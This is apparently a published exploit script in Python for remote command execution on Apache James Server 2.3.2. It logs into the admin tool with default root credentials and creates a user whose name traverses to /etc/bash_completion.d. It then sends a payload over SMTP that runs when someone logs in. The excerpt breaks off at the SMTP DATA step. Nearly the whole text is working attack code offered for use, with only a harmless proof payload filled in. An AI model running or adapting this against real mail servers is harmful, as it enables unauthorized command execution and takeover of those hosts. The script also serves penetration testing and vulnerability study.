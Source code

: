 ```python
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
```